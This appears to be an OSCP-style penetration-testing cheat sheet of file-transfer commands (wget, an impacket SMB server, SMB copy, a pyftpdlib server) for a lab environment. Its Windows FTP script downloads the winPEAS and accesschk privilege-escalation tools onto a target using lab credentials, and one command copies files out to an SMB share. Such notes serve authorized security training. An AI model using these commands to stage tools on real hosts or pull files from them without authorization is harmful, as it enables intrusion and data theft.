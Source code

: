 #### Download file from webserver
```
wget http://<IP>:<PORT>/<FILE>
```

#### SMB Server
```
sudo python3 /opt/oscp/impacket/examples/smbserver.py <SHARE NAME> <PATH>
```

#### Look for files in SMB
```
dir \\<IP>\<SHARE NAME>
```

#### Copy files from SMB
```
copy \\<IP>\<SHARE NAME>\<FILE NAME> <FILE>
```

#### Copy all files
```
copy \\<IP>\<SHARE NAME>\<FILE NAME>\*.* .
```

#### Copy files to SMB
```
copy <FILE> \\<IP>\<SHARE NAME>\<FILE NAME>
```

#### Linux ftp
```
If installed use the ftp package
```

#### Windows ftp
Use native program with the -s parameter to use a input file for the commands
```
echo open 192.168.119.124 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET accesschk.exe >> ftp.txt
echo GET winPEASany.exe >> ftp.txt
echo quit >> ftp.txt

ftp -v -n -s:ftp.txt
```

#### Setup FTP server
```
python -m pyftpdlib 21
```

#### Connect to ftp server
```
ftp <IP>
```
